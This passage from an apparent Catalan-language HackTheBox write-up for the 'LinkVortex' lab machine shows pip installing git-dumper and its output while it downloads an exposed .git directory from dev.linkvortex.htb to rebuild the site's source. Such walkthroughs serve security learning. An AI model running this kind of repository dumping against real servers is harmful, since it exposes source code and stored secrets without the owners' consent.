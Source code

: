 ```
Requirement already satisfied: urllib3>=1.25 in /usr/lib/python3/dist-packages (from dulwich->git-dumper) (2.2.3)
Requirement already satisfied: certifi>=2017.4.17 in /usr/lib/python3/dist-packages (from requests->git-dumper) (2024.8.30)
Requirement already satisfied: charset-normalizer<4,>=2 in /usr/lib/python3/dist-packages (from requests->git-dumper) (3.3.2)
Requirement already satisfied: idna<4,>=2.5 in /usr/lib/python3/dist-packages (from requests->git-dumper) (3.8)
Requirement already satisfied: cryptography>=42.0.0 in /usr/lib/python3/dist-packages (from requests-pkcs12->git-dumper) (42.0.5)
Downloading git_dumper-1.0.8-py3-none-any.whl (9.4 kB)
Downloading dulwich-0.22.6-cp311-cp311-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (981 kB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 981.3/981.3 kB 6.9 MB/s eta 0:00:00
Downloading requests_pkcs12-1.25-py3-none-any.whl (6.1 kB)
Installing collected packages: dulwich, requests-pkcs12, git-dumper
Successfully installed dulwich-0.22.6 git-dumper-1.0.8 requests-pkcs12-1.25
                                                                               
````

Ara descarregarem i  reconstruirem el repositori una altra vegada però amb aquesta eina:

```
┌──(kali㉿kali)-[~/Documents]
└─$ git-dumper http://dev.linkvortex.htb/.git/ ~/linkvortex

[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/exclude [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/v5.57.3 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/54b0ed7f9c9aedf3180ee1fd94e7e43b29f000 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/864e0261278525197724b394ed4292414d9fec [200]
```